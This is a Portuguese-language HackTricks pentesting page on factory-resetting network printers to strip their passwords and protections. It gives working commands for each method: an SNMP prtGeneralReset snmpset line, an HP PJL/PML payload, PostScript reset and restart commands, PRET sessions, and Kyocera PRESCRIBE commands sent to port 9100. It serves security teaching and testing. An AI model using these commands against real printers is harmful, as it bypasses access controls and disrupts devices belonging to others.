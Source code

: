 <details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>


**Resetar** um dispositivo para as configurações de fábrica é uma funcionalidade crítica de segurança, pois **sobrescreve mecanismos de proteção** como senhas definidas pelo usuário. Isso geralmente pode ser feito pressionando uma **combinação especial de teclas** no **painel de controle** da impressora. Realizar tal reset a frio leva apenas segundos e, portanto, é um cenário realista para atacantes locais ou pentesters, que podem, por exemplo, entrar sorrateiramente na sala de cópias na hora do almoço. No entanto, o **acesso físico** ao dispositivo **nem sempre é uma opção**.

### SNMP

O Printer-MIB define o Objeto **prtGeneralReset** (**OID 1.3.6.1.2.1.43.5.1.1.3.1**) que permite a um atacante reiniciar o dispositivo (powerCycleReset(4)), resetar as configurações do NVRAM (resetToNVRAM(5)) ou restaurar as configurações de fábrica (resetToFactoryDefaults(6)) usando SNMP. Esse recurso/ataque é **suportado por uma grande variedade de impressoras** e remove todos os mecanismos de proteção como senhas definidas pelo usuário para o servidor web embutido. Embora os mecanismos de proteção possam ser eficientemente contornados, uma desvantagem prática dessa abordagem é que toda a configuração de **endereço IP estático será perdida**. **Se não houver** serviço DHCP disponível, o atacante **não** será capaz de **reconectar** ao dispositivo após resetá-lo para as configurações de fábrica.

**Resetar o dispositivo para as configurações de fábrica padrão** pode ser realizado usando o comando `snmpset` como mostrado abaixo (você precisa conhecer a **string da comunidade**, que na maioria dos casos é `public` por padrão):
```bash
snmpset -v1 -c public printer 1.3.6.1.2.1.43.5.1.1.3.1 i 6
```
### [PML](./#pml)/[PJL](./#pjl)

Em muitos cenários, um atacante não tem a capacidade de realizar solicitações SNMP devido a firewalls ou strings de comunidade SNMP desconhecidas. No entanto, em **dispositivos HP**, o **SNMP** pode ser transformado em sua **representação PML** e incorporar a solicitação dentro de um trabalho de impressão legítimo. Isso permite que um atacante **reinicie e/ou redefina o dispositivo** para as configurações de fábrica dentro de trabalhos de impressão comuns, conforme mostrado abaixo:
```bash
@PJL DMCMD ASCIIHEX="040006020501010301040106"
```
Qualquer pessoa pode reproduzir este ataque em impressoras HP, reiniciando ou redefinindo o dispositivo pode facilmente ser reproduzido usando [**PRET**](https://github.com/RUB-NDS/PRET):
```bash
./pret.py -q printer pjl
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> reset
printer:/> restart
```
### PostScript

PostScript oferece um recurso similar: O parâmetro do sistema **FactoryDefaults**, 'uma flag que, se **definida como true** **imediatamente antes** da **impressora ser desligada**, faz com que todos os parâmetros não voláteis revertam para seus valores **padrão de fábrica** na próxima vez que for ligada'. Deve-se notar que o próprio **PostScript** também tem a capacidade de **reiniciar** seu **ambiente**, mas requer uma **senha válida**. \
No entanto, o interpretador PostScript pode ser colocado em um **loop infinito**, conforme discutido em ataques de DoS de [processamento de documentos](http://hacking-printers.net/wiki/index.php/Document\_processing), o que obriga o usuário a **reiniciar manualmente** o dispositivo e, assim, redefinir a senha do PostScript.

Redefinir os parâmetros do sistema PostScript para os padrões de fábrica:
```bash
<< /FactoryDefaults true >> setsystemparams
```
Reinicie o interpretador PostScript e a memória virtual:
```bash
true 0 startjob systemdict /quit get exec
```
Qualquer pessoa pode reiniciar ou redefinir o interpretador PostScript de uma impressora, o que **pode ser facilmente reproduzido usando** [**PRET**](https://github.com/RUB-NDS/PRET):
```bash
./pret.py -q printer ps
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> reset
printer:/> restart
```
### PRESCRIBE

Para **dispositivos Kyocera**, as linguagens de descrição de página **PRESCRIBE** podem ser usadas para **redefinir o dispositivo** para as configurações de fábrica a partir de trabalhos de impressão comuns usando um dos comandos mostrados abaixo:
```bash
!R! KSUS "AUIO", "CUSTOM:Admin Password = 'admin00'";  CMMT "Drop the security level, reset password";
!R! ACNT "REST";                                       CMMT "Reset account code admin password";
!R! EGRE;                                              CMMT "Reset the engine board to factory defaults";
!R! SIOP0,"RESET:0";                                   CMMT "Reset configuration settings";
```
Para reproduzir este ataque, abra uma conexão de rede crua com a porta 9100/tcp da impressora e **envie os comandos documentados acima**.


<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga**-me no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
